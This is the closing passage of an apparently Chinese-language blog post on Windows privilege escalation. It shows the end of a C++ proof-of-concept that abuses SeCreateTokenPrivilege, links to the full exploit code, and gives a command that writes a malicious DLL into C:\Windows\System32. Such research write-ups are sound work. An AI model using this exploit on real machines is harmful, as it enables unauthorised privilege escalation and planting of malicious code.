 ```c++
			return status;
		}
		printf("[*] Bytes written to %ws: %d\n", destFile, dwBytesWrite);
		status = TRUE;
	}
}
```

你可以在这里找到我完整的 POC 代码：[ExploitSeCreateTokenPrivilege.cpp](https://gist.github.com/wh0amitz/62b1522609c77ab06a393fc756d62316)

# Let’s see it in action

编译上述 POC，上传到目标主机，在拥有 SeCreateTokenPrivilege 特权的账户下执行以下命令，即可向 C:\Windows\System32\ 目录中写入一个恶意 DLL 文件，如下图所示。

```console
SeCreateTokenPrivilege.exe -s malicious.dll -d C:\Windows\System32\malicious.dll
```

![image-20230706134621994](/assets/posts/2023-07-06-creating-windows-access-tokens-with-god-privilege/image-20230706134621994.png)

